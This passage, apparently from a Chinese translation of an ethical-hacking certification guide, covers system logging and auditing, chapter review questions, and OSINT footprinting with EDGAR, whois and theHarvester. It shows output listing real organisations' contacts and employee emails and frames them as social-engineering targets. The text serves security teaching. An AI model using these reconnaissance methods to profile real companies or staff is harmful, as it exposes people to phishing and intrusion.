syslog 标准定义了设施来对消息进行分类，以便它们可以被路由到不同的位置。例如，与身份验证相关的任何消息都可以放入单个文件中，远离其他类型的消息。每个设施可以路由到不同的文件，甚至不同的系统，如果你希望某些日志消息存储在本地，而其他消息存储在集中位置。在某些 syslog 实现中，你可以同时本地和远程存储。这提供了本地日志以及充当备份的远程日志。

除了设施之外，syslog 还定义了严重性。这意味着应用程序可以确定事件的级别，包括信息性、调试、警告和错误。与设施一样，严重性也可以重定向到不同的位置。

当然，并非每个系统都是类 Unix 系统。Windows 系统在桌面和服务器上都非常常见。在 Windows 系统上，日志消息会发送到事件子系统。与 syslog 使用的基于文本的消息不同，事件子系统使用二进制存储系统。当然，事件子系统存储数据的方式的一个优势是，可以像查询数据库一样对其进行查询。虽然解析消息不那么容易，但你可以查询消息的事实意味着你可以通过单个查询轻松返回相关消息。

Windows 的事件子系统也拥有大量数据。除了系统、安全和应用程序等不同类别之外，还有事件 ID。事件 ID 可以识别所有相同的条目。搜索事件 ID 可以为你提供特定事件的每个实例，该事件可能跨多个进程发生。图 3.7 显示了 Windows 事件查看器中的单个事件，你可以在其中看到事件 ID。你还可以在事件查看器中看到随每个事件提供的其他信息。

### 图 3.7 事件查看器



在两种情况下，应用程序开发人员都可以利用系统提供的日志功能。在 Unix 端，任何开发人员都可以写入 syslog，syslog 服务将根据配置文件中的定义处理写入日志的操作。这使开发人员免于开发日志方案的负担，并确保查找日志消息的单一位置。Windows 系统也是如此。任何应用程序开发人员都可以利用事件子系统，使用它来写入日志消息。应用程序甚至可以有自己的日志文件，Windows 会将日志拆分到不同的位置。如果你进入事件查看器应用程序，你将能够查看所有事件日志条目以及事件日志所属的不同类别。你通常会看到 Windows 正在记录的所有应用程序列表。任何应用程序都可以在该列表中拥有自己的条目，以使日志与系统分开，同时仍然记录到与其他所有日志相同的位置。

## 审计

日志很重要，我们通常依赖应用程序开发人员来实现日志记录，理想情况下是可配置的日志记录，意味着不同级别的日志消息。能够将日志记录调整到详细级别可以使故障排除容易得多。操作系统也是如此。这时审计就可以派上用场了。类 Unix 系统和 Windows 系统都提供启用和配置审计的功能。当然，两种系统对审计的定义不同。

在 Windows 系统上，审计是一种安全功能。它涉及系统事件的成功或失败。例如，这可以包括登录的成功或失败，或者对系统文件的访问。图 3.8 显示了本地安全策略应用程序中的审计策略设置。策略中的每个类别都可以记录成功或失败。但这并不是二选一的关系。你可以同时记录成功和失败。如果审计事件被触发，它们将出现在 Windows 事件查看器的安全日志中。

### 图 3.8 Windows 中的审计策略



在 Linux 端，存在完全不同的审计基础架构。使用 auditctl 程序，可以在 Linux 系统上管理审计策略。Linux 内核中的审计子系统可用于监视文件和目录的活动。它可以用于监视应用程序执行。也许最重要的是，它还可以用于监视系统调用。系统上任何程序使用的任何系统调用都可以被监视和记录。审计子系统通常有自己的日志集。下面的代码清单显示了 CentOS Linux 系统 audit.log 中一些日志条目的示例。

### audit.log 示例输出

```
type=USER_LOGIN msg=audit(1530130008.763:341): pid=9711 uid=0 auid=0 ses=30
msg='op=login id=0 exe="/usr/sbin/sshd" hostname=binkley.lan addr=192.168.86.49
terminal=dev/pts/0 res=success'
type=USER_START msg=audit(1530130008.765:342): pid=9711 uid=0 auid=0 ses=30
msg='op=login id=0 exe="/usr/sbin/sshd" hostname=binkley.lan addr=192.168.86.49
terminal=dev/pts/0 res=success'
type=CONFIG_CHANGE msg=audit(1530130271.424:353): auid=4294967295 ses=4294967295
op=add_rule key=(null) list=4 res=1
type=SERVICE_START msg=audit(1530130271.424:354): pid=1 uid=0 auid=4294967295
ses=4294967295 msg='unit=auditd comm="systemd" exe="/usr/lib/systemd/systemd"
hostname=? addr=? terminal=? res=success'
type=SYSCALL msg=audit(1530130283.962:355): arch=c000003e syscall=59 success=yes
exit=0 a0=106e000 a1=1063a90 a2=10637e0 a3=7ffec3721e70 items=2 ppid=9711
pid=9908 auid=0 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts0
ses=30 comm="cat" exe="/usr/bin/cat" key=(null)
type=EXECVE msg=audit(1530130283.962:355): argc=2 a0="cat" a1="audit.log"
type=CWD msg=audit(1530130283.962:355): cwd="/var/log/audit"
type=PATH msg=audit(1530130283.962:355): item=0 name="/usr/bin/cat" inode=2799
dev=fd:00 mode=0100755 ouid=0 ogid=0 rdev=00:00 objtype=NORMAL cap_fp=0000000000000000 cap_fi=0000000000000000 cap_fe=0 cap_fver=0
type=PATH msg=audit(1530130283.962:355): item=1 name="/lib64/ld-linux-x86-64.so.2" inode=33559249 dev=fd:00 mode=0100755 ouid=0 ogid=0 rdev=00:00 objtype=NORMAL cap_fp=0000000000000000 cap_fi=0000000000000000 cap_fe=0 cap_fver=0
type=PROCTITLE msg=audit(1530130283.962:355): proctitle=6361740061756469742e6C6F6767
```

每个条目都提供关于条目类型的详细信息，这指示了审计子系统检测到的内容。例如，第一个条目表示用户已登录。你可以从详细信息中看到，连接来自的地址是 192.168.86.49，可执行文件是 /usr/sbin/sshd，结果是成功。其他条目指示文件操作、程序执行和配置更改。

与 Windows 下的审计一样，Linux 下的审计也需要配置。你可以通过创建 auditd 守护进程使用的规则来完成此操作。你可以直接在配置文件中进行更改，也可以使用 auditctl 命令在命令行中添加规则。这直接实施更改，也是审计系统启动时调用的内容。放入配置文件的是将传递给 auditctl 的命令行参数。


## 摘要

信息安全中有一些我们需要掌握的基本概念。首先是信息安全的三大基本属性——机密性、完整性和可用性。机密性是指需要保密信息保密。完整性是指确保数据在不应该改变时不会改变。最后，可用性是指信息（包括服务）在预期可用时可用。除了这三要素之外，还有Parkerian 六要素，它增加了实用性、真实性和占有权或控制权。

常见的技术元素有很多。几乎随处可见的是防火墙。然而，防火墙在功能上有多种类型。最基本的防火墙是包过滤，这意味着可以根据数据包头做出决策。有状态防火墙在决定是否允许或阻止流量时会考虑连接状态。深度包检测防火墙可以查看数据负载以确定是否阻止消息。最后，统一威胁管理设备（有些人称其为下一代防火墙）可以通过添加防病毒功能将防火墙功能提升到新水平。防病毒功能会查看网络流中的恶意软件，而不是等到它到达终端。

应用层网关也是防火墙的一种变体。这些是了解应用层协议的设备，可以根据流量是否匹配允许的端点以及流量流是否基于协议正确来对数据包做出决策。

仅靠技术是不够的。纵深防御策略不仅将分层应用于技术的部署，还应用于指导安全功能所需的政策、程序和标准。广度防御在纵深防御的基础上增加了更广泛的视角，在组织范围内增加了许多额外的防护。这可能包括意识培训、检测、响应准备以及超出仅防止攻击的其他功能。

当今企业必须做好应对攻击的准备。当然，有事件响应计划、政策和团队。然而，从技术角度来看，在需要响应时，日志记录和审计非常有帮助。日志记录可能是系统日志记录或应用程序日志记录，其中有程序员确定的操作痕迹。说到审计，Windows 审计功能包括对文件、用户或其他系统对象的访问的成功或失败日志。在 Linux 方面，可以编写审计规则来监视文件和目录以及系统调用。

## 复习问题

答案可在附录中找到。

- 1. 要在恶意软件到达终端之前将其从网络中删除，您会使用以下哪项？
  - A. 包过滤器
  - B. 应用层网关
  - C. 统一威胁管理设备
  - D. 有状态防火墙

- 2. 如果您在客户项目中发现把带有重要数据的外置硬盘落在了家里，您违反了哪项安全原则？
  - A. 机密性
  - B. 完整性
  - C. 不可否认性
  - D. 可用性

- 3. 您如何计算风险？
  - A. 概率 * 损失值
  - B. 概率 * 缓解因子
  - C. (损失值 + 缓解因子) * (损失值/概率)
  - D. 概率 * 缓解因子

- 4. 以下哪项是网络设计中纵深防御方法的一个因素？
  - A. 交换机
  - B. 在桌面上使用 Linux
  - C. 光缆连接
  - D. 路由器上的访问控制列表

- 5. 您如何确保在组织中实施机密性？
  - A. 看门狗进程
  - B. 加密
  - C. 加密哈希
  - D. Web 服务器

- 6. 入侵检测系统可以执行以下哪项功能？
  - A. 阻止流量
  - B. 根据头部过滤流量
  - C. 针对流量生成警报
  - D. 记录系统消息

- 7. 以下哪项是完整性丢失的示例？
  - A. 用户对文件进行更改并保存
  - B. 磁盘上标记了坏扇区
  - C. 信用卡以明文传输
  - D. 内存故障导致磁盘驱动程序运行不正确

- 8. 您将使用安全信息事件管理器做什么？
  - A. 汇总并提供日志数据搜索
  - B. 管理安全项目
  - C. 升级安全事件
  - D. 存储开源情报

- 9. 为什么将系统日志远程存储很重要？
  - A. 本地系统无法处理。
  - B. 带宽比磁盘快。
  - C. 攻击者可能会删除本地日志。
  - D. 它将防御攻击。

- 10. 有状态防火墙将 TCP 对话视为 ESTABLISHED 所需的必要条件是什么？
  - A. 最终确认消息
  - B. 三次握手完成
  - C. 序列号对齐
  - D. 收到 SYN 消息

- 11. 安全策略的目的是什么？
  - A. 为安全角色提供高层指导
  - B. 为安全工作人员提供具体方向
  - C. 增加公司的利润
  - D. 使标准和实践保持一致

- 12. Parkerian 六要素相对于 CIA 三要素提供了哪些额外属性？
  - A. 机密性、意识、真实性
  - B. 实用性、意识、占有权
  - C. 实用性、占有权、真实性
  - D. 占有权、控制权、真实性

- 13. 启用审计可以暴露哪些重要事件？
  - A. 系统关机
  - B. 服务启动
  - C. 包安装
  - D. 用户登录

- 14. 入侵防御系统可以做什么而入侵检测系统做不到？
  - A. 生成警报
  - B. 阻止或拒绝网络流量
  - C. 向虚假消息完成三次握手
  - D. 记录数据包

- 15. 以下哪项是应用层网关的示例？
  - A. Web 应用程序防火墙
  - B. 运行时应用程序自我保护
  - C. Java 小程序
  - D. 入侵防御系统

- 16. 包过滤器将使用哪些信息来决定允许哪些流量进入网络？
  - A. HTTP 请求消息
  - B. 以太网类型
  - C. UDP 源端口
  - D. SNMP OID

- 17. 以下哪些产品可用作入侵检测系统？
  - A. Elastic Stack
  - B. Prewikka
  - C. Snort
  - D. Snorby

- 18. 以下哪项不是破坏完整性的攻击示例？
  - A. 缓冲区溢出
  - B. 中间人攻击
  - C. 堆喷射
  - D. 水坑攻击

- 19. 哪种类型的攻击是对可用性的破坏？
  - A. 水坑攻击
  - B. DoS
  - C. 网络钓鱼
  - D. 缓冲区溢出

- 20. 如果您正在实施广度防御，您可能会做什么？
  - A. 安装多个防火墙
  - B. 安装入侵检测系统
  - C. 引入 DevSecOps 文化
  - D. 确保政策是最新的

# 第 4 章

# 足迹分析与侦察

本章涵盖以下 CEH 主题：

- 技术评估方法
- 端口扫描
- 隐私和机密性
- 数据分析
- 漏洞扫描


普遍认为，攻击者在发起攻击之前会做大量的前期工作。他们了解攻击面有多大以及目标在哪里。这可能需要大量的工作，使用许多不同的工具和技能。获取目标大小和范围的过程称为足迹分析——换句话说，攻击者，或者你，这位道德黑客，正试图获取目标组织的足迹。说到道德黑客攻击，目标可能会给你一些帮助，因为他们雇佣了你提供服务。他们可能会为你提供一些立足点，让你了解你应该做的事情的范围和规模。不过，也有可能你是从零开始，必须自己获取立足点。

不过，作为道德黑客，你可以从许多地方获取关于目标的信息。开源情报是指使用自由可用的来源来识别目标信息的术语。还有其他可以以非合法方式获取信息的地方，当然，你还可以直接渗透公司的实体位置以获取可用于针对目标的信息。这可能是非法的，肯定不是开源的。

这里的目标是获取所需数据，而不让目标察觉你在做这件事。这就是为什么你可能会使用第三方来源来获取所需信息。您还可以通过以预期的方式与目标上的服务进行交互来收集大量细节。例如，您可能会访问他们的网站并请求页面，就像该网站上的其他访客可能做的那样。您请求的内容或请求方式并无特殊之处。然而，如果你知道去哪里查找，可以收集目标正在使用的系统和技术的大量信息。

关于目标的大量细节的一个来源是域名系统（DNS）。这不是许多人会花时间思考的事情。当它工作时，你一无所知，因为它在后台静默进行。然而，DNS 服务器中存储了关于域甚至 IP 地址块的大量数据。可以挖掘这些数据，以便更好地了解目标、系统以及可能与目标关联的 IP 地址块。

在本章中，我们将介绍关于目标的信息来源以及您用于收集这些信息的工具。虽然其中大部分是静默的，并且至少有一个工具是完全被动的，但也有一些主动调查。不过，首先要从如何使用开源数据来确定获取目标信息的切入点开始。


## 开源情报

你可能有几个理由想要使用开源情报。第一是你没有获得任何关于目标的详细信息。你可能正在针对目标公司及其系统进行真正的红队演习。在这种情况下，你需要尽可能多地定位信息，以便不仅了解你的攻击面是什么样子，还了解可能的入侵方式。此外，你可以找到组织内个人的大量信息。这特别有用，因为社交工程攻击有很大的成功机会。拥有可攻击的联系人至关重要。

第二个原因是组织不一定意识到他们泄露了多少信息。如前所述，攻击者可以找到立足点，以及社交工程攻击的潜在人类目标。如果你正在与你进行测试的公司通力合作（也就是说，你正在进行白盒测试），你不需要使用开源情报作为起点，但你仍然应该收集可用的信息，以便公司了解情况。他们可能能够限制其暴露。即使没有任何可以收回的信息，他们也可以开展意识工作，使员工和整个组织不会不必要地泄露信息。

有许多工具可以用来自动化信息收集，我们将在研究如何收集关于公司和个人的开源情报时介绍它们的用途。我们还将查看社交网络网站以及这些网站的一些使用方式。即使在隐私设置被锁定的情况下，仍然有大量信息可以收集。还有某些网站本身就是公开的，这些网站当然可以使用。

## 公司

在获取关于目标的开源情报时，有几个起点。第一是整体查看公司。你希望收集关于公司所在地的信息。有时这可能很容易。但是，越来越，这可能变得困难。之所以可能变得困难，是因为公司认识到，他们提供的信息越多，这些信息就越可能被用来对付他们。因此，除非法规要求他们提供这些信息，否则他们不会提供。有一些资源可用于收集关于公司的信息。

有时，这些资源可以用于收集可能用于社交工程攻击的信息。在某些情况下，你将能够收集关于公司网络的详细信息。这两种信息都可能有用。关于公司及其组织和治理结构的详细信息可以来自美国政府维护的数据库（针对在此注册的企业）。关于商业网络的详细信息可能来自负责互联网治理的组织维护的数据库。

## EDGAR

上市公司必须提供关于自己的信息。有一些资源可用于查询这些信息。在此过程中，你可能会收集关于公司组织结构的信息。组织结构可以告诉你谁担任什么职位，因此当你稍后致力于发送电子邮件以收集更多信息时，你知道这些邮件应看起来是由谁发送的。你可以选择适当职位的持有者。

美国证券交易委员会（SEC）有一个数据库，存储与公司相关的所有公开文件。电子数据收集、分析和检索（EDGAR）系统可用于查询公开文件，例如 10-K 表格的年度报告。此外，季度报告（10-Q）也会提交给 EDGAR 并存储在那里。这些报告提供了关于公司财务的详细信息。11-K 表格（包括员工股票期权计划详细信息的表格）也会提交给 EDGAR。访问 EDGAR 就像访问 SEC 网站上的 EDGAR 一简单。你可以在图 4.1 中看到页面的一部分，即搜索字段。

### 图 4.1 EDGAR 网站


在 EDGAR 中你可以找到的最有用的表格之一是 Schedule 14-A，即代理声明，其中将包括年度股东报告，这可能包含对你非常有用的大量信息。例如，图 4.2 显示了微软公司年度股东报告的一小部分。未显示的其他部分包括微软公司治理、董事会和审计委员会事项。虽然从高层次来看，这些报告中包含的内容在所有上市公司之间大致相同，但有些公司可能会比其他公司提供更多具体细节。有些公司需要报告的内容比其他公司多。例如，微软报告的目录显示页码总数在 80 页左右。John Wiley & Sons 的报告显示页码在 50 页左右。这两家公司之间大约少了 30 页。

### 图 4.2 Microsoft 的 Schedule 14-A 部分

| 内容 | 页码 |
|---|---|
| 高管薪酬 | |
| 提案 2：就批准高管薪酬进行咨询性投票 | 31 |
| 支持声明 | 31 |
| 薪酬讨论与分析 | 32 |
| 第 1 节 – 高管薪酬概览 | 33 |
| 股东反馈在薪酬计划演进中的考量 | 33 |
| 年度薪酬组成部分 | 34 |
| 第 2 节 – 2017 财年薪酬决策 | 38 |
| 业务结果 | 38 |
| 决策年度 2017 基础薪资 | 38 |
| 2017 财年基础薪资 | 38 |
| 现金激励奖励 | 38 |
| 2017 财年股票奖励 | 42 |
| 第 3 节 – 2017 财年薪酬设计流程 | 43 |
| 高管薪酬计划设计 | 43 |
| 目标年度薪酬组合 | 44 |
| 具有竞争力的薪酬支付 | 44 |
| 应对市场逆风 | 45 |
| 高管职责范围 | 45 |
| 建立薪酬机会 | 45 |
| 独立薪酬顾问 | 46 |
| 第 4 节 – 其他薪酬政策和信息 | 46 |
| 没有重大高管福利和特权 | 46 |
| 有限的离职后薪酬 | 46 |
| 股票所有权政策 | 47 |
| 风险监督政策 | 48 |
| 禁止衍生品交易、对冲和质押 | 48 |
| 高管薪酬税前扣除 | 48 |
| 年度薪酬风险评估 | 49 |
| 薪酬委员会报告 | 50 |
| 2017 财年薪酬表格 | 50 |
| 摘要薪酬表 | 50 |
| 基于计划的奖励授予 | 50 |
| 2017 年 6 月 30 日的未行权股权奖励 | 53 |
| 股票已获权 | 54 |
| 非合格递延薪酬 | 54 |
| 股权薪酬计划信息 | 55 |
| 薪酬委员会交错关系和内部人参与 | 55 |
| 股票所有权信息 | 55 |
| 第 16(a) 节 – 实益所有权报告合规 | 57 |
| 提案 3：就高管薪酬咨询性投票频率进行咨询性投票 | 57 |

## 域名注册商

EDGAR 仅适用于上市公司。并非每家公司都是上市公司。你无法像了解上市公司那样深入了解私人公司。但是，EDGAR 不是可用于收集公司信息的唯一资源。与互联网本身相关的另一个信息来源是域名注册商。你无法从域名注册商获得与 EDGAR 相同类型的信息，但它有时仍然是一个不错的信息来源。首先，你可以获得可能是公司总部地址的地址。

然而，这并非保证。如所述，公司开始向注册商隐瞒信息。信息隐藏在注册商背后。当你请求信息时，你会得到注册商被要求呈现的内容，而不一定是真实的详细信息。没有什么规定注册商必须提供


使用真实地址，除非他们是在信用卡支付时检查账单地址。事实上，有些时候我注册的域名使用的是虚假电话号码和错误地址。由于数据是公开的，因此要注意分享的内容。任何人都可以挖掘注册表获取这些信息，并用于各种目的。

不过，在深入探讨之前，你很可能需要了解互联网在域名和地址方面的治理方式。首先，有互联网名称与数字地址分配机构（ICANN）。ICANN之下是互联网数字名称与地址分配机构（IANA），负责管理与互联网运行相关的IP地址、端口、协议及其他基本数字。在ICANN于1998年成立之前，IANA的职能由一人管理，即Jon Postel，他还维护了请求评论（RFC）文档。

除了负责编号的ICANN之外，还有域名注册商。这些组织存储其负责的地址及联系人信息。曾经有一段时间，注册域名和其他数据都通过单一实体完成。不过，现在有几家公司可以执行注册商职能。如果你想注册域名，可以去DomainMonger或GoDaddy等注册商公司。然后可以查询这些公司以获取域名详细信息。

为了从区域互联网注册表（RIR）获取信息，你会使用whois程序。这是一个可以在大多数类Unix系统（包括Linux和MacOS）的命令行上使用的程序。如果你手头没有类Unix系统，也有提供whois实现的网站。下面，你可以看到whois查询输出的一部分。

```
$ whois wiley.com
% IANA WHOIS server
% for more information on IANA, visit http://www.iana.org
% This query returned 1 object

refer:        whois.verisign-grs.com

domain:       COM

organisation: VeriSign Global Registry Services
address:      12061 Blumont Way
address:      Reston Virginia 20190
address:      United States
phone: +1 703 925-6999
fax-no: +1 703 948 3978
e-mail: info@verisign-grs.com
<- SNIP ->
Domain Name: wiley.com
Registry Domain ID: 936038_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.corporatedomains.com
Registrar URL: www.cscprotectsbrands.com
Updated Date: 2017-10-07T05:19:30Z
Creation Date: 1994-10-12T04:00:00Z
Registrar Registration Expiration Date: 2019-10-11T04:00:00Z
Registrar: CSC CORPORATE DOMAINS, INC.
Registrar IANA ID: 299
Registrar Abuse Contact Email: domainabuse@cscglobal.com
Registrar Abuse Contact Phone: +1.8887802723
Domain Status: clientTransferProhibited
http://www.icann.org/epp#clientTransferProhibited
Registry Registrant ID:
Registrant Name: Domain Administrator
Registrant Organization: John Wiley & Sons, Inc
Registrant Street: 111 River Street
Registrant City: Hoboken
Registrant State/Province: NJ
Registrant Postal Code: 07030
Registrant Country: US
Registrant Phone: +1.3175723355
Registrant Phone Ext:
Registrant Fax: +1.3175724355
Registrant Fax Ext:
Registrant Email: domains@wiley.com
Registry Admin ID:
Admin Name: Domain Administrator
Admin Organization: John Wiley & Sons, Inc
Admin Street: 111 River Street
Admin City: Hoboken
Admin State/Province: NJ
Admin Postal Code: 07030
Admin Country: US
Admin Phone: +1.3175723355
Admin Phone Ext:
Admin Fax: +1.3175724355
Admin Fax Ext:
Admin Email: domains@wiley.com
```

↓ 对wiley.com的whois查询

输出内容很多需要查看，我删减了大部分，只保留真正相关的信息。首先，whois会查询IANA的whois服务器，以确定需要联系谁来处理这个特定域名。你可以在输出的最顶部看到这种情况。IANA指示Verisign是该域名的注册商。我们获取了注册商Verisign的详细信息。之后，在删减了大量信息后，我们终于得到了域名wiley.com的详细信息。在输出中可以看到公司的地址和电话号码。此外，你还能看到公司的一些联系人信息。注册商期望有行政联系人和技术联系人。

如前所述，并非所有域名都会提供这么详细的信息。一个不包含任何联系信息的域名示例是spamhaus.org。下面，你可以看到联系信息显示数据已因隐私原因被编辑。

## 关于spamhaus.org的详细信息

```
Registry Registrant ID: REDACTED FOR PRIVACY
Registrant Name: REDACTED FOR PRIVACY
Registrant Organization: The Spamhaus Project
Registrant Street: REDACTED FOR PRIVACY
Registrant City: REDACTED FOR PRIVACY
Registrant State/Province:
Registrant Postal Code:
Registrant Country: CH
Registrant Phone: REDACTED FOR PRIVACY
Registrant Phone Ext:
Registrant Fax: REDACTED FOR PRIVACY
Registrant Fax Ext:
Registrant Email: 26a60f47fb7b1b2a0e5ea9927ed7f15c-666344@contact.gandi.net
Registry Admin ID: REDACTED FOR PRIVACY
Admin Name: REDACTED FOR PRIVACY
Admin Organization: REDACTED FOR PRIVACY
Admin Street: REDACTED FOR PRIVACY
Admin City: REDACTED FOR PRIVACY
Admin State/Province: REDACTED FOR PRIVACY
Admin Postal Code: REDACTED FOR PRIVACY
Admin Country: REDACTED FOR PRIVACY
Admin Phone: REDACTED FOR PRIVACY
Admin Phone Ext:
Admin Fax: REDACTED FOR PRIVACY
Admin Fax Ext:
Admin Email: a25006f8175341e32979e6f59e7b87ea-178660@contact.gandi.net
```

使用这种策略可以保护信息隐私，防止落入spamhaus.org所要防范的人手中。提供的数据可用于为发送垃圾邮件者创建邮件列表。也可用于为传统垃圾邮件提供商（有时称为直邮营销公司）创建实体邮件列表。

## 区域互联网注册表

然而，并非所有有用信息都存储在域名注册商处。还有其他重要数据需要保存。前面我们讨论过IANA。虽然IANA服务器提供关于域名注册商的信息，但其长期目的是作为地址的中央清算所。这不仅包括众所周知服务的端口号，还包括IP地址。从高层来看，IANA拥有所有IP地址。它根据需求将这些IP地址分配给RIR。RIR随后将其分配给其地理区域内的组织。

全球有五个RIR。它们位于不同的地理区域，组织会参考其所在位置的RIR来获取IP地址等信息。RIR及其负责的地理区域列在下面。

- 非洲网络信息中心 (AfriNIC) 非洲
- 互联网数字资源管理机构 (ARIN) 北美洲（美国和加拿大）以及南极洲和加勒比海部分地区。
- 亚太网络信息中心 (APNIC) 亚洲、澳大利亚、新西兰及邻近国家
- 拉丁美洲和加勒比海网络信息中心 (LACNIC) 拉丁美洲和加勒比海部分地区
- 欧洲IP网络协调中心 (RIPE NCC) 欧洲、俄罗斯、西亚和中亚

所有这些RIR都有自己的数据库，可以使用whois进行查询，就像我们使用whois查询域名注册商的信息一样。通常，你会针对RIR使用whois来查找特定IP地址的所有者。例如，在前面wiley.com的输出中，部分输出指示该域名使用哪个域名服务器来将主机名解析为IP地址。其中一个域名服务器是ns.wiley.co.uk。只需付出少量努力（我们将在本章后面介绍DNS），我们就可以发现主机名ns.wiley.co.uk解析为IP地址193.130.68.19。使用whois，我们可以查明谁拥有该IP地址。你可以在下面的代码中看到该查询的结果。


## whois 查询 IP 地址

```
$ whois 193.130.68.19
% IANA WHOIS server
% for more information on IANA, visit http://www.iana.org
% This query returned 1 object

refer:  whois.ripe.net

inetnum:    193.0.0.0 - 193.255.255.255
organisation: RIPE NCC
status:     ALLOCATED

whois:      whois.ripe.net

changed:    1993-05
source:     IANA

% This is the RIPE Database query service.
% The objects are in RPSL format.
%
% The RIPE Database is subject to Terms and Conditions.
% See http://www.ripe.net/db/support/db-terms-conditions.pdf

% Note: this output has been filtered.
%       To receive output for a database update, use the "-B" flag.

% Information related to '193.130.68.0 - 193.130.69.255'

% Abuse contact for '193.130.68.0 - 193.130.69.255' is 'abuse@uk.verizon.com'

inetnum:    193.130.68.0 - 193.130.69.255
netname:    WILEY-UK
descr:      John Wiley & Sons Ltd
country:    GB
admin-c:    TW1873-RIPE
tech-c:     TW1873-RIPE
status:     ASSIGNED PA
mnt-by:     AS1849-MNT
created:    1970-01-01T00:00:00Z
last-modified: 2010-12-29T09:52:04Z
source:     RIPE # Filtered

person:     Tony Withers
address:    John Wiley & Sons Ltd
address: Baffins Lane
address: Chichester
address: Sussex
address: PO19 1UD
address: England, GB
phone: +44 243 770319
fax-no: +44 243 775878
nic-hdl: TW1873-RIPE
created: 1970-01-01T00:00:00Z
last-modified: 2016-04-05T14:15:57Z
mnt-by: RIPE-NCC-LOCKED-MNT
source: RIPE # Filtered

% Information related to '193.130.64.0/18AS702'

route: 193.130.64.0/18
descr: UK PA route
origin: AS702
member-of: AS702:RS-UK,
        AS702:RS-UK-PA
inject: upon static
aggr-mtd: outbound
mnt-by: WCOM-EMEA-RIPE-MNT
created: 2018-04-16T14:25:12Z
last-modified: 2018-04-16T14:25:12Z
source: RIPE
```

这为我们提供了大量有用的信息。首先，尽管我们提供了一个单独的 IP 地址，但地址是以块分配的。我们首先发现的是，父块已于 1993 年分配给 RIPE，即欧洲区域互联网注册管理机构。不过，所提供 IP 地址所属的特定块是 193.130.68.0–255。该块不出所料属于 John Wiley & Sons。你可以看到 John Wiley & Sons 的地址位于大不列颠，这与 RIPE 作为欧洲区域注册机构的身份相符。该企业位于英格兰，因此相应的区域注册机构是负责欧洲的机构。

我们已经了解了关于该企业及其所属 IP 地址的几点信息。此外，你可以看到响应中给出了一个联系人。这提供了姓名和电子邮件地址。如果我们要针对该企业进行测试，可以利用这些信息。

## 人物

虽然系统及其关联的 IP 地址是针对可用服务的技术攻击的良好入口点，但人员联系信息可能更有用。还有其他地方可以获取属于目标组织的人员名单。同样，我们可以使用一些实用程序来帮助收集这些信息。其中之一是 theHarvester。这是一个脚本，将根据提供给程序的域名搜索不同来源以定位联系信息。在以下代码中，你可以看到针对域 wiley.com 并使用 Google 作为搜索来源运行 theHarvester 的输出。

## theHarvester 输出

```
$ theharvester -d wiley.com -b google
*********************************************************************************
*
*   |  _| |_   _____  /\ /\__   ____ _  ___ ___  /_  __/__   ____ | |_ _   _  *
*   |  _| ' \/ / _ \ \/ // '_ \ / _` |/ __/ _ \ \ \/ / '_ \ / _ \| __| | | | *
*   | |_| | | |  __/\ V /| | | | (_| | (_|  __/  >  <| | | | (_) | |_| |_| | *
*   \__|_| |_|\___| \_/ |_| |_|\__,_|\___\___| /_/\_\ |_|\___/ \__|\__,_|    *
*                                                                              *
*   TheHarvester Ver. 2.7.2                                                   *
*   Coded by Christian Martorella                                             *
*   Edge-Security Research                                                     *
*   cmartorella@edge-security.com                                             *
*********************************************************************************

[+] Starting harvesting process for domain: wiley.com
[-] Searching in Google:
    Searching 0 results...
    Searching 100 results...
    Searching 200 results...
    Searching 300 results...
    Searching 400 results...
    Searching 500 results...

Harvesting results

[+] Emails found:
----------------------------------
hbaumgar@wiley.com
respinosa@wiley.com
cs-journals@wiley.com
cochrane@wiley.com
sciencenewsroom@wiley.com
[+] Hosts found in search engines:
----------------------------------------------------------------------------
Total hosts: 8
[-] Resolving hostnames IPs...
agupubs.onlinelibrary.wiley.com : 65.156.1.101
authorservices.wiley.com : 216.137.41.119
booksupport.wiley.com : 208.215.179.132
eu.wiley.com : 216.137.41.74
hub.wiley.com : 204.93.79.243
newsroom.wiley.com : 204.8.173.169
onlinelibrary.wiley.com : 65.156.1.101
www.wiley.com : 216.137.41.21
```

